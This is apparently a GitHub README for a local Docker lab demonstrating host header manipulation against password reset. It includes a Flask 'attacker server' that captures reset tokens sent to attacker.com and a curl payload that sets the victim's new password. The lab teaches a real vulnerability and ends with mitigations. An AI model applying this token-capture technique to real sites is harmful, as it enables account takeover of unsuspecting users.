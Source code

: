 # Password Reset Spoof
A demonstration of Host Header Manipulation to exploit password reset functionality and capture reset tokens for unauthorized account access.

### Host Header Attack: Password Reset Exploitation

1. **Attacker Accesses Password Reset Form**:
   The attacker visits the target website (e.g., www.example.com) and enters the victim's email in the password reset form.

2. **Attacker Intercepts the Request**:
   Using a proxy tool (e.g., Burp Suite), the attacker intercepts the outgoing password reset request.

3. **Host Header Manipulation**:
   The attacker modifies the `Host` header from www.example.com to attacker.com.

4. **Server Generates Malicious Link**:
   The target server uses the manipulated `Host` header to generate a password reset link pointing to attacker.com.

5. **Victim Receives Email with Malicious Link**:
   The victim receives a legitimate-looking email containing the malicious link (e.g., https://attacker.com/reset-password?token=abc123).

6. **Victim Clicks the Malicious Link**:
   The victim unknowingly clicks the link, which redirects them to the attacker-controlled website.

7. **Attacker Captures Reset Token**:
   The attacker’s website captures the password reset token (e.g., abc123) from the victim's request.

8. **Attacker Uses the Token**:
   The attacker sends the captured token to the legitimate password reset endpoint on www.example.com and resets the victim's password, gaining control over their account.


# Step-by-Step Guide to Running the Project

This guide explains how to set up and run the project.

## Update Credentials:

![Update Credentials](images/mail_script.png)

Explanation: This step ensures the system uses the specified email credentials for sending reset emails as part of the scenario demonstration.


### Step 1: Start Docker Compose
Run the following command to start all services:
```bash
docker-compose up --build
```

### Step 2: Open Localhost Ports
Access the services running on your local machine through the following ports:

1. **Backend**: Open your browser and navigate to: http://localhost:5000
2. **Frontend**: Open your browser and navigate to: http://localhost:4567


### Step 3: Enter Victim's Email for Password Reset
In this step, the attacker enters the victim's email address into the password reset form on the legitimate website to initiate the password reset process.

Example Screenshot:
![Enter Victim Email](images/victim_email.png)

Explanation: This step triggers the password reset process, and the server will send a reset link to the victim’s email address.

### Step: Capturing and Modifying the Request in Burp Suite

1. **Capture the Original Request**:
   Using **Burp Suite**, intercept the outgoing password reset request after entering the victim's email. The original `Host` header points to the legitimate domain (e.g., `www.example.com`).

   **Original Request Screenshot**:
   ![Original Request](images/original_request.png)

2. **Modify the `Host` Header**:
   In **Burp Suite**, modify the `Host` header to point to the attacker's domain (e.g., `attacker.com`). This change ensures that the server generates the reset link using the malicious domain.

   **Modified Request Screenshot**:
   ![Modified Request](images/modified_request.png)

### Step 4: Victim Receives Email and Clicks Malicious Link

In this step, the victim receives an email containing a password reset link generated by the manipulated `Host` header. The link appears legitimate but redirects to the attacker's website.

Example Screenshot:
![Victim Receives Email](images/password_reset_email.png)

Explanation: The victim, unaware of the attack, clicks the link (e.g., `https://attacker.com/reset-password?token=abc123`). This action redirects them to the attacker's web server, which captures the reset token from the request.


### Step 5: Attacker Captures the Token in Attacker Server

When the victim clicks the malicious reset link, they are redirected to the attacker's server. The attacker’s server (`attacker_server/main.py`) captures the reset token from the URL.

Code in `attacker_server/main.py`:
```python
@app.route('/reset-password', methods=['GET'])
def capture_token():
    token = request.args.get('token')
    if token:
        print(f"Captured Token: {token}")
        with open("captured_tokens.txt", "a") as f:
            f.write(f"Captured Token: {token}\n")
        return jsonify({"success": True, "message": "Token captured successfully"}), 200
    else:
        return jsonify({"success": False, "message": "No token found in the request"}), 400
```

### Step 6: Attacker Sends the Payload to Server Endpoint

Using the captured reset token, the attacker crafts a malicious payload and sends it to the legitimate server’s password reset confirmation endpoint (`/confirm-password`). This resets the victim's password to one chosen by the attacker.

Example Payload:
```bash
curl -X POST http://127.0.0.1:5000/confirm-password \
-H "Content-Type: application/json" \
-d '{"token": "G34v0QYdJXZVopfDlmjt7V1gXYIfTCmaZhRRrmP7xDo", "new_password": "easypeasy"}'
```
![Victim Password Reset](images/victim_password_reset.png)


### Step 7: Attacker Logs in Using Victim's Email and New Password
After successfully resetting the victim's password, the attacker can now log in to the victim's account using the email and the new password they set.


# Conclusion
This demonstration highlights the risks associated with insecure password reset implementations and the exploitation of trust in the `Host` header. By manipulating the reset process, attackers can capture sensitive tokens, gain unauthorized access to user accounts, and compromise the security of the system. Implementing proper validations, such as whitelisting `Host` headers, securing reset tokens, and employing multi-factor authentication, can help mitigate these attacks.
